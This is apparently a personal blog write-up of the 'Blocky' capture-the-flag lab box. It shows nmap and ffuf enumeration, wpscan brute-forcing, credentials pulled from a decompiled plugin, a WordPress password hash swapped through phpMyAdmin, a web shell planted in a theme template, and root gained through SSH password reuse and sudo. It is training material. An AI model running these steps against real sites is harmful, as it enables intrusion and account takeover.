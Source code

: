 ```yaml
---
layout: post
title: Blocky
tags: [OSCP, Writeup, Linux, PHP, Web, Java]
description: "Blocky write-up"
---
```


![Blocky logo](/assets/imgs/blocky/blocky.png)

### This is an easy linux box

## Tools used

------

- nmap


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA blocky 10.10.10.37 -v

PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Here’s what nmap teaches us :

- port 22 (FTP) - ProFTPD 1.3.5a
- port 22 (SSH) - OpenSSH 7.2p2
- port 80 (HTTP) - Apache 2.4.18

Let's first go to the web port :

![Blocky website](/assets/imgs/blocky/website.PNG)

It looks like a website about a minecraft server, the website is still in "construction" and are developing a wiki. Let' try to found files/directories :

```
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.37/FUZZ -e .txt,.php -t 150         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.37/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .txt .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 150
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.php               [Status: 301, Size: 0, Words: 1, Lines: 1]
wiki                    [Status: 301, Size: 309, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-login.php            [Status: 200, Size: 2402, Words: 147, Lines: 70]
plugins                 [Status: 301, Size: 312, Words: 20, Lines: 10]
license.txt             [Status: 200, Size: 19935, Words: 3334, Lines: 386]
wp-includes             [Status: 301, Size: 316, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-trackback.php        [Status: 200, Size: 135, Words: 11, Lines: 5]
wp-admin                [Status: 301, Size: 313, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-signup.php           [Status: 302, Size: 0, Words: 1, Lines: 1]
```

So this is a Wordpress, to found the version, I go to this url : http://10.10.10.37/wp-links-opml.php

![Wordpress version](/assets/imgs/blocky/version.PNG)

This is not the last Wordpress version, I use wpscan to get information about it :

```
wpscan --rua -e --url http://10.10.10.37/
```

The one interesting things that I get from this scan is a username :

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

I tried to brute force it :

```
wpscan --rua --url http://10.10.10.37/ -P /home/liodeus/wordlist/rockyou.txt -U "notch"
```

But, couldn't found the password ! Let's try another path and see if I can do anything else. They were talking about a wiki, so let's see it :

![Wiki page](/assets/imgs/blocky/hint_plugins.PNG)

So they're talking about plugins and ffuf found a plugins directory :

![Plugins page](/assets/imgs/blocky/plugins.PNG)

There is two plugins, download them :

```
wget http://10.10.10.37/plugins/files/griefprevention-1.11.2-3.1.1.298.jar
wget http://10.10.10.37/plugins/files/BlockyCore.jar
```

This is two java files, looking on Google how to decompile them, I stumbble upon this website : http://www.javadecompilers.com/, that I used to decompiled both files. The interesting one was "BlockyCore.jar" :

![Java decompilers](/assets/imgs/blocky/blockycore_decompil.PNG)

And here I obtain credentials to databases !

```
this.sqlHost = "localhost";
this.sqlUser = "root";
this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

## Exploit

------



![Blocky logo](/assets/imgs/blocky/phpmyadmin_connected.PNG)

go to wordpress, wp_users -> notch password

![Blocky logo](/assets/imgs/blocky/notch_hash_password.PNG)

Try to crack it :

```
hashcat.exe -m 400 -a 0 hash.txt rockyou.txt
```

I can modify the row, so what if I just change the hashed password by mine ?

```
https://ehikioya.com/wordpress-password-hash-generator/
```

```
Liodeus -> $P$BRdSf.4WMEer/JWPQPIZMrtLGHkL/e0
```

modify the hash via phpmyadmin

![Blocky logo](/assets/imgs/blocky/hash_modified.PNG)

then go connect http://10.10.10.37/wp-admin/

```
notch:Liodeus
```

![Blocky logo](/assets/imgs/blocky/wordpress_loign.PNG)

Now upload a webshell, mutliple ways : https://hackingnewideas.wordpress.com/2014/01/02/how-to-upload-shell-in-wordpress-sites/
I used the first one : Appearance > Editor > 404 Template, modify with https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php :

![Blocky logo](/assets/imgs/blocky/webshell.PNG)

go to the url : http://10.10.10.37/wp-content/themes/twentyseventeen/404.php

![Blocky logo](/assets/imgs/blocky/webshell_test.PNG)

I'm only "www-data" ! There is another method who gives you notch rights, connecting to the ssh with the same password as the one from the database (8YsqfCTnvxAUeduzjNSXe22) :

```
ssh notch@10.10.10.37              
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ whoami
notch
```



```
notch@Blocky:/home/notch$ sudo -l
[sudo] password for notch:
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Notch can run any commands as root ! So let's get root !

```
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# whoami
root
```



## Flags

------

### User.txt

```
root@Blocky:/home/notch# cat user.txt 
59fee0977fb60b8a0bc6e41e751f3cd5
```

### Root.txt

```
root@Blocky:/home/notch# cat /root/root.txt 
0a9694a5b4d272c694679f7860f1cd5f
```